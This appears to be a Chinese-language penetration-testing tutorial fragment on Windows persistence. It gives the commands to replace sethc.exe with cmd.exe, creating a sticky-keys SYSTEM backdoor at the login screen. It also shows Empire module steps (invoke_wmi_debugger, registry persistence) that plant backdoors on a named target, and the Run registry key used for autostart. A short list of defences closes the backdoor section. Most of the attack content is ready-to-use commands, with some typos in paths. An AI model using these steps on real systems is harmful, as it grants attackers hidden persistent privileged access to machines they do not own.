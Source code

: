 复制粘贴cmd.exe 然后就直接打开了

- 域用户的命令框

把cmd复制一份改成粘滞键的名字

进入到登录页面 就可以创建域用户

进入系统

用可执行文件`sethc.exe.bak`替换`windows\systdm32`目录下的sethc.exe

```php
cd windows\system32
move sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe 
#连续按5次shift键,将弹出命令行窗口。可以直接以system权限执行系统命令
```

### Empire

前提得是\*用户，过UAC,system权限才行

```csharp
usemodule lateral_movement/invoke_wmi_debugger
info
set Listener dayu
set ComputerName user1.xiyou.dayu.com (计算机名)
set TargetBinary sethc.exe
execute
```

执行完execute被攻击方电脑会一闪而过CMD终端窗口!  
最后，在目标系统上连续按5次shift键触发后门:

### 粘滞键后门防范措施

1.在远程登录服务器时，连续按5次“"Shift”键，判断服务器是否被人侵。  
2.拒绝使用setch.exe或者在“控制面板”中关闭“启用粘滞键”选项

注册表后门
-----

### 手上

在普通用户权限下,攻击者会将需要执行的后门程序或者脚本路径填写到注册表键

```csharp
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

Run:该项下的键值即为开机启动项,每-次随着开机而启动

运行输入：regedit.exe

### Empire

输入`usemodule persistence/userland/registry`命令模块
